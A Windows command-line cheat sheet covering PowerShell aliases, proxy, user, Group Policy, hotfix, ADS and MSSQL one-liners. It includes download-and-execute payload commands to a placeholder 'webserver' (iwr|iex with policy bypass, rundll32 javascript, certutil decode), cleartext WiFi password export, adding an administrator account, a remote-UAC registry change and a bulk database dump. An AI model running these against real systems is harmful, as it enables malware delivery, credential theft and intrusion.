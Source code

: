 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern.

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern.

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*

PowerShell also provides commands to browse the filesystem.
Here is a correspondence table between PowerShell commands and commands from other systems, that are also available in PowerShell as aliases:

+-------------------------+--------------------------------------------------+----------------------------------------------+
|                         |                     Aliases                      |                                              |
|      cmdlet             +---------+-------------------+--------------------+ Description                                  |
|                         |   PS    | ``cmd.exe``       |   UNIX shell       |                                              |
+=========================+=========+===================+====================+==============================================+
| ``Get-Location``        | ``gl``  | ``pwd``           | ``pwd``            | Get the current node.                        |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Location``        | ``sl``  | ``cd``, ``chdir`` | ``cd``, ``chdir``  | Change the current node.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ChildItem``       | ``gci`` | ``dir``           | ``ls``             | List the objects stored at the current node. |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``New-Item``            | ``ni``  | ``md``, ``mkdir`` | ``mkdir``          | Create a directory.                          |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Item``            | ``gi``  |                   |                    | Return the properties of the current item.   |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Item``            | ``si``  |                   |                    | Define the content of an item.               |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-Item``           | ``cpi`` | ``copy``          | ``cp``             | Copy an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-Item``           | ``mi``  | ``move``          | ``mv``             | Move an object.                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-Item``         | ``rni`` | ``rn``            | ``ren``            | Rename an object.                            |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Remove-Item``         | ``ri``  | ``del``, ``rd``,  | ``rm``, ``rmdir``  | Remove an object.                            |
|                         |         | ``erase``         |                    |                                              |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Content``         | ``gc``  | ``type``          | ``cat``            | Get the content of an object.                |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Set-Content``         | ``sc``  |                   |                    | Define the content of an object.             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-ItemProperty``    | ``gp``  |                   |                    | Return a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Copy-ItemProperty``   | ``cpp`` |                   |                    | Copy a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Move-ItemProperty``   | ``mp``  |                   |                    | Move a property.                             |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Rename-ItemProperty`` | ``rnp`` |                   |                    | Rename a property.                           |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Compare-Object``      |         | ``compare``       | ``diff``           | Compare several objects.                     |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Write-Output``        |         | ``write``         | ``echo``           | Print something to the standard output.      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Invoke-WebRequest``   | ``iwr`` |                   | ``curl``, ``wget`` | Perform a HTTP request.                      |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+
| ``Get-Help``            |         | ``help``          | ``man``            | Get the help associated with a cmdlet.       |
+-------------------------+---------+-------------------+--------------------+----------------------------------------------+


Download and run
----------------

Download and run a script

* PowerShell (``iex`` is an alias to ``Invoke-Expression``)::

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

* JavaScript through Rundll32 (used by Win32/Poweliks malware)::

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``::

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell::

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\

Run a PowerShell script::

    %windir%\System32\WindowsPowerShell\v1.0\powershell.exe -Noninteractive -ExecutionPolicy Bypass –Noprofile -file MyScript.ps1


Proxy settings
--------------

Get the HTTP proxy which is currently configured::

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy::

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles::

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``::

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file::

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{(netsh wlan show profile name=$name key=clear)} |
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # Get information about the current sessions on a server
    qwinsta
    query session

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group

    # Add an adminitrator user
    net user newuser password /add
    net localgroup Administrators newuser /add

In order to login as administrator to a remote machine without using the built-in administrator (RID 500), a registry key needs to be set.
This has been described in many blog posts:

* https://support.microsoft.com/en-us/help/942817/how-to-change-the-remote-uac-localaccounttokenfilterpolicy-registry-se
* https://blogs.msdn.microsoft.com/wmi/2009/07/24/powershell-remoting-between-two-workgroup-machines/
* https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/

::

    cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
    PowerShell Set-ItemProperty –Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System –Name LocalAccountTokenFilterPolicy –Value 1 –Type DWord


Enumerate live objects
----------------------

Enumerate all processes::

    tasklist /v
    query process *
    Get-Process
    # "gps" and "ps" are aliases of Get-Process

Enumerate all services::

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo
    gsv | epcsv C:\Temp\AllServices.csv -NoTypeInfo


Group Policy
------------

Edit Local Group Policy::

    gpedit.msc
    secpol.msc

Export the Local Group Policy::

    secedit /export /cfg system_config.cfg

    # With at least Windows Vista or Windows Server 2008
    gpresult /H GPReport.html

    # Display RSoP summary data (Resultant Set of Policies)
    gpresult /R

    # RSoP GUI
    RSOP.msc

Work on Group Policy Objects (GPO):

.. code-block:: sh

    # Launch the Group Policy Management Console
    gpmc.msc

    # Apply the GPO
    gpupdate /force

The Remote Server Administration Tools (RSAT) provides Group Policy PowerShell Cmdlets (https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee461027%28v=technet.10%29):

.. code-block:: sh

    Get-WindowsCapability -Online | ? Name -like 'Rsat.GroupPolicy.Management.Tools*'
    Get-GPOReport -All -ReportType Html -Path GpoReport.html

Logon scripts are located in folder ``%SystemRoot%\SYSVOL\sysvol\{domain DNS name}\Policies\{GUID of the GPO}\User\Scripts\Logon`` (on Domain controllers).
They can be implemented in VBScript (``.vbs`` extension) or PowerShell (``.ps1`` extension).
In GPMC, they are linked to a GPO using either:

* Computer Configuration -> Policies -> Windows Settings -> Scripts (Startup / Shutdown)
* User Configuration -> Policies -> Windows Settings -> Scripts (Logon/Logoff)

A third way of running scripts on a system consists in using Immediate Scheduled Tasks:

* Computer Configuration -> Preferences -> Control Panel Settings -> Scheduled Tasks


Software information
--------------------

In order to list the upgrades that have been applied, using DISM (Deployment Image Servicing and Management Tool)::

    dism /online /get-packages

In order to check for an applied update, with its KB number:

.. code-block:: sh

    dism /online /get-packages | findstr KB99999

    # systeminfo.exe enumerates the "hotfixes" too
    systeminfo.exe | findstr KB99999

    # WMI also provides such an information in
    # System.Management.ManagementObject#root\CIMV2\Win32_QuickFixEngineering
    wmic qfe get hotfixid | find "KB99999"
    wmic qfe | find "KB99999"

    # From PowerShell
    Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}

    # https://docs.microsoft.com/en-gb/powershell/module/Microsoft.PowerShell.Management/Get-HotFix?view=powershell-5.1
    Get-HotFix -id KB99999


Boot configuration
------------------

::

    msconfig


Installed software
------------------

.. code-block:: sh

    wmic product get "name,version" /format:csv > applications.csv


Firewall
--------

::

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule


TCP port forwarding with netsh
------------------------------

::

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42 connectport=80 connectaddress=10.13.37.1


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS)::

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue | Select-Object FileName

Read an ADS::

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS::

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``::

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt::

    Import-Csv -Path file.csv | Out-GridView
    ipcsv -Path file.csv | ogv

In order to produce a CSV from a PowerShell command::

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation
    ... | sort -Property Timestamp | epcsv file.csv -notypeinformation

For a table in the CLI::

    ... | Format-Table
    ... | ft

In order to show a table as a list::

    ... | Format-List
    ... | fl


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }

On a SQL Server, it is also possible to create a virtual drive (cf. https://docs.microsoft.com/en-us/sql/powershell/navigate-sql-server-powershell-paths?view=sql-server-2017):

.. code-block:: sh

    New-PSDrive -Name MYDB -Root SQLSERVER:\SQL\localhost\DEFAULT\Databases\mydb
    Set-Location MYDB:\Tables\Users
